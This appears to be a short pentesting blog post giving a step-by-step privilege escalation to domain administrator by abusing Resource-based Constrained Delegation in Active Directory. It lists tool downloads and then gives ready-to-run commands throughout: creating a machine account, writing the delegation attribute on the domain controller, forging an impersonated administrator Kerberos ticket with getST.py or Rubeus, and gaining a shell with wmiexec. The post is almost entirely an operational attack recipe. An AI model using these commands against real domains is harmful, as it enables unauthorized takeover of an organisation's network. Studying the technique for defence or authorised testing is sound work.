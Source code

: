 [back](/)

### Resource-based Constrained Delegation

Each domain user, by default, has permission to add 10 computers to the domain. This fact very often helps when you have GenericAll rights, for example from a user group to a domain controller. Here is a small manual for elevating privileges in a domain.

![Image](/img/rbcd/1.png)

First of all lets get dome useful tools:

```
git clone https://github.com/Kevin-Robertson/Powermad
git clone https://github.com/SecureAuthCorp/impacket
git clone https://github.com/GhostPack/Rubeus
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

Step-by-step privesc:

```
import-module .\Powermad.ps1
New-MachineAccount -MachineAccount JAKI2 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

import-module .\PowerView.ps1
$ComputerSid = Get-DomainComputer JAKI2 -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

getST.py jaki.local/JAKI2 -dc-ip dc.jaki.local -impersonate administrator -spn www/dc.jaki.local
```

![Image](/img/rbcd/2.png)


```
export KRB5CCNAME=administrator.ccache

wmiexec.py dc.jaki.local -k
```

or just use cobalt strike function:

```
execute-assembly /tmp/Rubeus.exe s4u /user:JAKI2 /rc4:32ed87bdb5fdc5e9cba88547376818d4 /impersonateuser:administrator /msdsspn:cifs/dc.jaki.local /ptt
```

![Image](/img/rbcd/3.png)

![Image](/img/rbcd/4.png)

```
cat /tmp/ticket_b64 | sed /^$/d | tr -d '\r\n' | sed -e "s/ //g" | base64 -d > /tmp/ticket

ticketConverter.py /tmp/ticket.kirbi admin.ccache 

export KRB5CCNAME=admin.ccache

wmiexec.py dc.jaki.local -k 
```

Useful links:

+ [PowerShellMafia](https://github.com/PowerShellMafia)
+ [Powermad](https://github.com/Kevin-Robertson/Powermad)
+ [Rubeus](https://github.com/GhostPack/Rubeus)
+ [Impacket](https://github.com/SecureAuthCorp/impacket)
+ [BloodHound](https://github.com/BloodHoundAD/BloodHound)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)